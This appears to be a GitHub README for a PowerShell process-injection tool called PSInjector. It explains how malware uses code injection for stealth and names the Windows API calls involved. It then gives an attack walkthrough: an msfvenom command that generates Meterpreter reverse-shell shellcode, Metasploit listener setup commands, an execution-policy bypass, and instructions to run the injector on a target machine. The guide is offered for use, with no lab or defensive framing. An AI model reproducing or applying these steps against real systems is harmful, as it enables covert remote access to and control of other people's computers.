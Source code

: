 # PSInjector
Code injection is a technique where a process can insert a part of or all of its code from its own running process into another target process and get the target process to execute the injected code.


![image](https://user-images.githubusercontent.com/68971838/210256124-30b065df-ff35-4a5a-af9e-6d956c6be52a.png)

Code Injection Motives

Code injection is performed in both user mode and kernel mode. Malware mainly uses code injection for the following reasons.

• Hiding their presence, also known as stealth 

• Process piggybacking 

• Altering functionality of another process or entire OS

Code Injection Target

Before injecting code, malware must figure out who and where it wants to inject its code. Malware can inject its code into existing processes running on the system, as well as into the kernel. Alternatively, it can create/spawn a new process off itself in a suspended state and inject code into it. For user space, we already know that each process has its own private virtual memory space split into user mode and kernel mode address space. The user-mode space of the virtual memory is tampered by another process, even though it is private to the process. If malware injects code into the user-mode part of any other process, only that process is affected by the malware. Modifying the kernel impacts all processes on the system. But again, injecting into the kernel by adding a kernel module or altering an existing kernel module is not a child’s play. A programmer needs to be extremely careful while playing around with any kernel code, as a small mistake can dramatically impact the system and may lead to a system crash. On the other hand, the kernel is highly protected and not that easy to modify, making it not the most sought-after destination for malware.


Steps for Code Injection
Code injection is largely handled in the following steps.

1. Locate the target for code injection. 

2. Inject the code. 
  
  a. Allocate/create memory/space in the target process of virtual memory. 
  
  b. Write/inject code into the allocated memory/space in the target 

3. Execute the injected code in the target.


This is a script written in PowerShell that injects a payload into another process. The payload is in the form of an array of bytes and is injected into the process with the ID specified by the $procId variable. in our case is notepad.exe

The LookupFunc function is used to get the address of a function in a dynamic-link library (DLL). It takes a DLL name and the name of a function as input and returns the address of the function. The getDelegateType function is used to create a delegate type for a function. A delegate is a type that represents a reference to a method.

The OpenProcess function is used to get a handle to the process with the specified ID. The VirtualAllocEx function is used to allocate memory within the virtual address space of the process. The WriteProcessMemory function is used to write the payload to the memory that was allocated. Finally, the CreateRemoteThread function is used to create a thread that runs in the context of the process and begins execution at the specified memory address.


First we need the shellcode, to create shellcode we will use msfvenom:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1

copy the shellcode and paste it in the injector like so:
![image](https://user-images.githubusercontent.com/68971838/210256780-c6cb4897-9a04-4515-acce-8ae28705aef2.png)


Now set up a listener in the Metasploit Framework (MSF), you first need to start the MSF console:

msfconsole

use multi/handler

set PAYLOAD windows/x64/meterpreter/reverse_tcp 

set LHOST IP

set LPORT PORT


Now run the injector on the target machine:

Note:
If you have a script that you need to run and the execution policy is set to Restricted, you can bypass the execution policy:
Set-ExecutionPolicy Unrestricted

Now run in powershell prompt:
./PSinjector

and check ur listener:

![image](https://user-images.githubusercontent.com/68971838/210256969-2ca9869f-7781-4888-88f4-fe7bb5a8b6bc.png)


Author: SPNl48 :)))

jenna Ortega fan 


